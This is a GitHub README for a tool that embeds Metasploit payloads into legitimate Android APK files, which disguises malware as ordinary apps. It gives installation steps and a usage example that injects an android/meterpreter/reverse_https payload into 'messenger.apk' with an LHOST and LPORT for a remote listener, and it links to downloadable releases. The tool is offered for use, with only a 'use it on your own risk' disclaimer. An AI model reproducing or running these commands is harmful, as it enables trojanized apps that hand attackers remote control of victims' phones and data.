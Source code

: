 
# **Use it on your own risk** [![Donate](https://img.shields.io/badge/Donate-BTC-green.svg?style=flat-square)](https://blockchain.info/address/1535duT5aPHeetRED4jov6ejHEymvH29jj)

Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs**

**Authored by timwr, Jack64 , developed by [xC0d3rZ](https://xc0d3rz.github.io)**

### Installation

```bash
 gem install bundler
 bundler install
```

### Requirements 
 
 1. Ruby (**>= 1.8.7**).
 2. apktool.jar (**>= 2.x**).

### Usage

```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g

```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```
### [Download](https://github.com/xc0d3rz/metasploit-apk-embed-payload/releases)
  

